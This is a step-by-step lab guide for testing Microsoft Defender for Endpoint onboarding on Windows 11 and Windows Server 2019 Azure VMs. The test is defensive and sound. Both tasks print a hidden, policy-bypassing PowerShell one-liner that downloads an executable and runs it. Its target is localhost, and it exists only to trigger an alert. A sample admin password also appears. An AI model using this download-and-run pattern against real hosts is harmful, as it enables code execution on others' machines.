**Lab 2 - Validating Endpoint Onboarding: Conducting a PowerShell
Detection Test with Microsoft Defender for Endpoint**

**Introduction**

To verify that the device is properly onboarded and reporting to the
service, run the detection script on the newly onboarded device. If
successful, the new alert will appear in a few minutes.

**Objective**

- To verify the successful onboarding of Microsoft Defender for Endpoint
  on Windows 11 and Windows Server 2019 devices by conducting a
  PowerShell detection test.

# Exercise 1: Run a detection test on a newly onboarded Microsoft Defender for Endpoint devices

## Task 1: Verify Microsoft Defender for End point onboarding of a Windows 11 device using a PowerShell detection test

1\. In Azure portal search bar, type virtual machines, then click on
Virtual machines under Services.



2\. In the **Virtual machines** page, navigate and click on **testvm2**.



3\. On the **testvm2** page, if your virtual machine is stopped, then
click on the **Start** button as shown in the below image.

4\. In **testvm2** virtual machine page, navigate and click on
**Connect** on the left side navigation menu, scroll down to **Native
RDP** tile, and click on the **Download RDP file**.

5\. In **testvm2.rdp could harm your device. Do you want to keep it
anyway?** dialog box, click on **Keep** button.



6.  On **The publisher of this remote connection can’t be identified. Do
    you want to connect anyway?** dialog box, click on **Connect**
    button.

>  alt="A screenshot of a computer Description automatically generated" />

7.  On **Enter your credentials** dialog box, enter the password (here,
    **Administrator5801@\***) and click on the **OK** button.



8.  On **The identity of the remote computer cannot be verified. Do you
    want to connect anyway?** dialog box, click on **Yes** button.



9.  Type **cmd** in the windows search bar, navigate to **Command
    Prompt**, select **Run as administrator**.

10. In the command prompt, enter the following code and press the
    **Enter** button.

Copycode

powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden
\$ErrorActionPreference= 'silentlycontinue';(New-Object
System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe',
'C:\\test-WDATP-test\\invoice.exe');Start-Process
'C:\\test-WDATP-test\\invoice.exe'

11. The Command Prompt window closes automatically. Wait for 5-10
    minutes. If successful, a new alert appears in the portal for the
    onboarded device.

12. Go back to **Microsoft Defender** portal and refresh the page.
    Navigate and click on **Incidents & alerts**, then click on
    **Alerts**. You’ll see the Alerts related to the execution of
    **Suspicious PowerShell Command**.



## Task 2: Verify Microsoft Defender for Endpoint onboarding of a Windows Server 2019 server device using a PowerShell detection test

> 1\. In the Azure portal search bar, type virtual machine, then
> navigate and click on **Virtual machines** under **Services**.
>
>  alt="A screenshot of a computer Description automatically generated" />
>
> 2\. In the **Virtual machines** page, navigate and click on
> **TESTSERVER1.**



3\. Click on the **Start** button if the VM is stopped.

4\. In **TESTSERVER1** virtual machine page, navigate and click on
**Connect** on the left side navigation menu, then click on **Select**
under **Native RDP** section.



5.  On **TESTSERVER1.rdp could harm your device. Do you want to keep it
    anyway?** dialog box, click on **Keep** button.

>  alt="A screenshot of a computer Description automatically generated" />

6.  On **TESTSERVER1.rdp** file, click on **Open file** link.

> 

7.  On **The publisher of this remote connection can’t be identified. Do
    you want to connect anyway?** dialog box, click on **Connect**
    button.

>  alt="A screenshot of a computer Description automatically generated" />

8.  On **Enter your credentials** dialog box, enter the password (here,
    **Administrator5801@\***) and click on the **OK** button.



9.  On **The identity of the remote computer cannot be verified. Do you
    want to connect anyway?** dialog box, click on **Yes** button.

10. The TESTSERVER1 VM will be opened. Minimize the **Server Manager –
    Dashboard**.



11. Type **cmd** in the windows search bar, navigate to **Command
    Prompt** and right click on it, then select **Run as
    administrator**.



12. In the command prompt, enter the following code and press the
    **Enter** button.

Copy code

**powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden
\$ErrorActionPreference= 'silentlycontinue';(New-Object
System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe',
'C:\\test-WDATP-test\\invoice.exe');Start-Process
'C:\\test-WDATP-test\\invoice.exe'**

13. The Command Prompt window closes automatically. Wait for 5-10
    minutes. If successful, a new alert appears in the portal for the
    onboarded device.



14. Go back to **Microsoft Defender** portal and refresh the page.
    Navigate and click on **Incidents & alerts**, then click on
    **Alerts**. You’ll see the Alerts related to the execution of
    **Suspicious PowerShell Command**.



**Summary**

In this lab, you’ve executed a PowerShell detection test on the
onboarded Windows 11 and Windows Server 2019 devices and checked the
generated alerts to validate endpoint onboarding.
